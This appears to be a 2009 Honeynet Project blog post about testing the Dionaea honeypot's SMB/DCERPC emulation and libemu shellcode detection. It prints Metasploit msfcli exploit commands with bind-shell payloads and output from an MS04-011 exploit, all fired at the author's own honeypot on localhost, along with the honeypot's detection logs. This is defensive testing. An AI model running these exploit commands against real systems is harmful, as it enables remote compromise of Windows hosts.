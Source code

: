 ```yaml
---
title: "Iteolih: RPC vulnerability implementation party"
authors: ["Mark Schloesser"]
date: "2009-08-25"
tags: 
  - "iteolih-samba-dcerpc-python-libemu"
---
```

{{<figure src="images/banner.png" alt="Banner" width="50%">}}

The [Dionaea](http://dionaea.carnivore.it/ "dionaea homepage") honeypot got more and more mature during the last weeks. As Markus blogged in [Iteolih: Miles and More](https://www.honeynet.org/node/485 "Markus' blog") the software is now able to detect shellcode via libemu and generates a nice shellcode profile out of this.

  
  

The SMB / DCERPC implementation also got fairly mature and is now able to cope with all packet types and also most caveats and differences of implementations in exploits. As I registered more and more RPC vulnerabilities in the module, it was definitely time to give libemu something to eat! :)

  
  
  
  

So I just launched some metasploit modules against the honeypot...

  
  
`#!/bin/sh  
./msfcli exploit/windows/smb/ms06_040_netapi PAYLOAD=windows/shell/bind_tcp RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/smb/ms06_066_nwapi PAYLOAD=windows/shell/bind_tcp RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/smb/ms06_066_nwwks PAYLOAD=windows/shell/bind_tcp RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/dcerpc/ms03_026_dcom PAYLOAD=windows/shell/bind_tcp RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/dcerpc/ms05_017_msmq PAYLOAD=generic/shell_bind_tcp HNAME=dionaea RPORT=135 RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/dcerpc/ms07_065_msmq PAYLOAD=generic/shell_bind_tcp DNAME=www.google.de RPORT=135 RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/smb/ms05_039_pnp PAYLOAD=generic/shell_bind_tcp RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/dcerpc/ms03_026_dcom PAYLOAD=generic/shell_bind_tcp RHOST=127.0.0.1 T=0 E  
`  
  

... and watched dionaea spit out the info (cut for better blog experience):

  
  
`[25082009 18:06:00] emu : shellcode found offset 135  
[25082009 18:06:00] RPCVULN : got the DCERPC request for NetPathCanonicalize. MS08-067 exploit?  
[25082009 18:06:18] RPCVULN : got the DCERPC request for NwOpenEnumNdsSubTrees. MS06-066 exploit?  
[25082009 18:06:25] RPCVULN : got the DCERPC request for NwChangePassword. MS06-066 exploit?  
[25082009 18:06:45] RPCVULN : got the DCERPC request for RemoteActivation. MS03-026 exploit?  
[25082009 18:06:45] emu : shellcode found offset 988  
[25082009 18:07:01] RPCVULN : got the DCERPC request for QMDeleteObject. MS05-017 exploit?  
[25082009 18:07:01] emu : shellcode found offset 776  
[25082009 18:07:01] emukind : bindshell host 0.0.0.0 port 4444  
[25082009 18:07:08] RPCVULN : got the DCERPC request for QMCreateObjectInternal. MS07-065 exploit?  
[25082009 18:07:18] RPCVULN : got the DCERPC request for PNP_QueryResConfList. MS05-039 exploit?  
[25082009 18:07:38] RPCVULN : got the DCERPC request for RemoteActivation. MS03-026 exploit?  
[25082009 18:07:38] emu : shellcode found offset 1080  
[25082009 18:07:38] emukind : bindshell host 0.0.0.0 port 4444  
`  
  

Also the infamous HOD exploit triggers libemu nicely:

  
  
`$ ./hod 0 127.0.0.1 445 127.0.0.1  
  
MS04011 Lsasrv.dll RPC buffer overflow remote exploit v0.1  
--- Coded by .::[ houseofdabus ]::. --- 
doing connectback  
[*] Target: IP: 127.0.0.1: OS: WinXP Professional [universal] lsass.exe  
[*] Connecting to 127.0.0.1:445 ... OK  
[*] Attacking ... OK`  
  
`[25082009 18:08:09] emu : shellcode found offset 302  
[25082009 18:08:09] RPCVULN : got the DCERPC request for DsRolerUpgradeDownlevelServer. MS04-011 exploit?  
[25082009 18:08:09] emukind : connectbackshell host 127.0.0.1 port 445  
`  
  

With some exploits libemu does not give a correct shellcode profile or does not detect a shellcode - this will mostly be the case because of unicode encoding or some other custom encapsulation in the rpc packets. We will add some heuristics later which can preprocess the data to improve libemu's detection.

  
  

The honeypot also already supports shell emulation and ftp/http/tftp downloads of malware - but this was turned off for the above tests.

  
  

Feel free to checkout the honeypot's code and try it for yourself. We need testing and feedback! As documentation is rather small, feel free to ask questions in the nepenthes IRC channel.

  
  

Mark
